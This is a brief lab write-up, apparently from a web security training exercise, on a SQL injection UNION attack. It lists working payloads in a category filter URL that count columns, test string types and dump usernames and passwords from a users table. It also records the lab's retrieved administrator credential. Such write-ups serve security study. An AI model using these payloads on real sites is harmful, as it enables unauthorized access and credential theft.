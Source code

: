 # Lab: SQL injection UNION attack, retrieving data from other tables

Target : To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user.

Analysis:

- There is two columns `/filter?category=Accessories'+UNION+SELECT+NULL+,+NULL++--`
- The two columns compatible with string values `/filter?category=Accessories'+UNION+SELECT+'a'+,+'a'++--`
- retriving admin credentails `Accessories'+UNION+SELECT+username+,+password+FROM+users++--`
  - admin credentails is `administrator:xbrhpyhn1pt1pqtaialt`
